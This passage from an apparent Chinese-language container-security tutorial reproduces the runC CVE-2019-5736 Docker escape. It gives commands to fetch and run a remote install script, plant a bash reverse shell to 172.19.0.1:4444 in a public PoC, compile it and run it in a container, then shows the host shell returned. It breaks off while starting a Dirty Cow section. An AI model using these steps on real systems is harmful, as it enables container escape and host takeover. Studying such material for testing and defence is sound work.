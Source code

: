 #### [](#341-cve-2019-5736)3.4.1 CVE-2019-5736

CVE-2019-5736 是 runC 的 CVE 漏洞编号，runC 最初是作为 Docker 的一部分开发的，后来作为一个单独的开源工具和库被提取出来，在 docker 整个架构的运行过程中，Containerd 向 docker 提供运行容器的 API，二者通过 grpc 进行交互。containerd 最后通过 runc 来实际运行容器。

**影响版本**

-   docker version <=18.09.2
-   RunC version <=1.0-rc6

**利用条件：**

攻击者可控 image，进一步控制生成的 container

攻击者具有某已存在容器的写权限，且可通过 docker exec 进入

**漏洞复现：**

1.  测试环境镜像下载安装

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>curl https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw -o install.sh && bash install.sh<br>``` |

2.  下载 POC，修改脚本，编译

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```bash<br># 下载 poc<br>git clone https://github.com/Frichetten/CVE-2019-5736-PoC<br><br># 修改Payload<br>vi main.go<br>payload = "#!/bin/bash \n bash -i >& /dev/tcp/172.19.0.1/4444 0>&1"<br><br># 编译生成 payload<br>CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go<br><br># 拷贝到 docker 容器中执行<br>docker cp ./main 248f8b7d3c45:/tmp<br>``` |

3.  在容器中执行 payload：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>root@d1b112ea4a5e:/tmp# ./main<br>[+] Overwritten /bin/sh successfully<br>[+] Found the PID: 16<br>[+] Successfully got the file handle<br>[+] Successfully got write handle &{0xc8201231e0}<br>``` |

4.  假设，管理员通过 exec 进入容器，从而触发 Payload。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker exec -it  cafa20cfb0f9 /bin/sh<br>``` |

在 172.19.0.1 上监听本地端口，成功获取宿主机反弹回来的 shell。

#### [](#342-cve-2019-14271)3.4.2 CVE-2019-14271

[https://xz.aliyun.com/t/6806](https://xz.aliyun.com/t/6806)

### [](#35-%E5%86%85%E6%A0%B8%E6%BC%8F%E6%B4%9E)3.5 内核漏洞

Dirty Cow（CVE-2016-5195）是 Linux 内核中的权限提升漏洞，通过它可实现 Docker 容器逃逸，获得 root 权限的 shell。

环境准备：

docker 与宿主机共享内核，因此我们需要存在 dirtyCow 漏洞的宿主机镜像。

添加容器下载并运行：

